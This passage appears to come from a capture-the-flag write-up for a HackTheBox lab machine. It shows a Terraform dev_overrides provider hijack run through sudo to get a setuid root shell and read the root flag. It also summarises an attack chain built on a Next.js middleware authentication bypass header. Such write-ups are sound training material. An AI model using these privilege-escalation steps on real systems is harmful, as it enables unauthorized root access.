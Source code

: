 **Step 3: Create Terraform CLI configuration**

```bash
nano /home/jeremy/privesc/dev.tfrc
```

**Configuration content:**

```php
provider_installation {
  dev_overrides {
    "previous.htb/terraform/examples" = "/home/jeremy/privesc"
  }
  direct {}
}
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756995433319/ad0c1192-d597-4991-933a-64af1f4e3b3d.png align="center")

*Image 8: Creating the Terraform CLI configuration file*

#### Executing the Privilege Escalation

**Step 4: Set environment variable and execute**

```bash
export TF_CLI_CONFIG_FILE=/home/jeremy/privesc/dev.tfrc
sudo /usr/bin/terraform -chdir=/opt/examples apply
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1756995451906/d687e663-008b-4c20-a69c-89c668975e22.png align="center")

*Image 9: Successful execution of the Terraform privilege escalation*

**Step 5: Verify root access**

```bash
/bin/bash -p
```

The `-p` flag preserves the setuid bit, granting effective root privileges.

**Root flag captured:**

```bash
cat /root/root.txt
f4a8b3f3efccd749c36331e3e14035bb
```

## Technical Analysis

### Attack Chain Summary

1. **Reconnaissance**: Discovered Next.js 15.2.2 application
    
2. **Vulnerability Research**: Identified CVE-2025-29927 authentication bypass
    
3. **Exploitation**: Used `X-Middleware-Subrequest` header to bypass authentication
    